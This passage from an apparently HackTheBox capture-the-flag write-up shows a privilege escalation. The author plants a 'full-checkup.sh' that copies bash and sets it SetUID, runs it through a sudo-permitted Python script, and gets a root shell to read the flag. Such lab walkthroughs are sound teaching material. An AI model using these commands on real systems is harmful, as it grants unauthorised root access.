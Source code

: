 #### Exploit

I can put whatever I want into a `full-checkup.sh` and it will run as root if
I start `system-checkup.py full-checkup` in the same directory.

I’ll have it copy `bash` and set my copy as SetUID to run as root:

    
    
    svc@busqueda:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
    svc@busqueda:/dev/shm$ cat full-checkup.sh 
    #!/bin/bash
    
    cp /bin/bash /tmp/0xdf
    chmod 4777 /tmp/0xdf
    svc@busqueda:/dev/shm$ chmod +x full-checkup.sh 
    

It’s important to set it as executable as well.

I’ll run `system-checkup.py` and it reports success:

    
    
    svc@busqueda:/dev/shm$ sudo python3 /opt/scripts/system-checkup.py full-checkup
    
    [+] Done!
    

`/tmp/0xdf` is there, owned by root, and the `s` bit is on:

    
    
    svc@busqueda:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Mar 31 19:57 /tmp/0xdf
    

I’ll run with `-p` to [not drop privs](/2022/05/31/setuid-rabbithole.html):

    
    
    svc@busqueda:/dev/shm$ /tmp/0xdf -p
    0xdf-5.1#
    

And grab `root.txt`:

    
    
    0xdf-5.1# cat root.txt
    e7df7cd2************************
    

[](/2023/08/12/htb-busqueda.html)


